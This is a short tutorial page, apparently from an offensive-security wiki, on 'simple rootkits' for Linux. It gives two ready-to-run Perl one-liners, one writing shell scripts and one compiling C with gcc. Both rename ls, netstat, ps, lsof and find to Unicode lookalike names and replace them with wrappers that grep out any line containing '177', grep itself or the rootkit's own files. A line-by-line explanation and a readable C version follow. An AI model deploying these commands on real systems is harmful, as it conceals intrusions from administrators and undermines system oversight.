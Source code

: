 # Simple Rootkits

## Shell Rootkit

{% hint style="danger" %}
This rootkit is pretty easy to detect and analyze because it can easily be seen with the file command that programs like `ps` or `ls` have changed the type from an ELF binary to a shell script. After discovering the rootkit, it is also pretty easy to analyze the functionality of it and then selectively find the backdoors hidden by the rootkit.
{% endhint %}

The shell script version is still useful if the system doesn't contain a c compiler:

```
which ls netstat ps lsof find|perl -pe'$s="\x{455}";$n="\x{578}";chop;$o=$_;s/([ltp])s/\1$s/||s/fin/fi$n/;rename$o,$_;open F,"&gt;$o";print F"#!/bin/sh\n$_ \$*|grep -vE \"[$s-$n]|grep|177\"";chmod 493,$o'
```

The which command lists the absolute path of the programs to maniuplate in the rootkit. These absolute paths are passed to a perl one-liner. The perl program starts with defining the variables $s and $n, which are initialized with the Unicode characters u+455 and u+578. These characters look like the ascii characters "s" and "n". Then it copies the filename of the original filename to $o and changes the filename in $\_ by replacing the "s" in ls, netstat, ps and lsof with u+455 and the "n" in find with u+578. The result of these replacements is a new filename which looks exactly like the original filename. The original program is then renamed to the new name and then replaced with a shell script, which calls the renamed original program ($\_) and pipes the output to grep. The grep command filters lines containing one of the following:

* Unicode characters used by the rootkit (\[$s-$n]) => Makes the rootkit self-hiding
* The string "grep" => Don't show that grep is running in the output of ps
* The string "177" => This is used for the stuff which should be hidden by the rootkit.

## The C Version

In order to make finding and analyzing the rootkit more difficult, it is also possible to compile small binaries instead of the shell script:

```
which ls netstat ps lsof find|perl -pe'$s="\x{455}";$n="\x{578}";chop;$o=$_;s/([ltp])s/\1$s/||s/fin/fi$n/;rename$o,$_;open F,"|gcc -xc - -o$o";print F qq{int main(int a,char**b){char*c[999999]={"sh","-c","$_ \$*|grep -vE \\"177|\$\$|[$s-$n]|grep\\""};memcpy(c+3,b,8*a);execv("/bin/sh",c);}}'
```

The beginning is pretty much like the first variant of the rootkit. However, insted of directly writing the wrapper program, the perl script opens a pipe to gcc and writes a small C program to this pipe. The following shows a more readable version of the C program:

```
int main(int a,char**b){
  char*c[999999]={"sh","-c","original_program \$*|grep -vE \\"177|\$\$|[$s-$n]|grep\\""};
  memcpy(c+3,b,8*a);
  execv("/bin/sh",c);
}
```

The first line initializes the argument array for execv with "sh -c" and the same shell command as the first variant of the rootkit while the second line copies all remaining arguments from the argv array passed to the wrapper binary to the end of the argument array for execv.







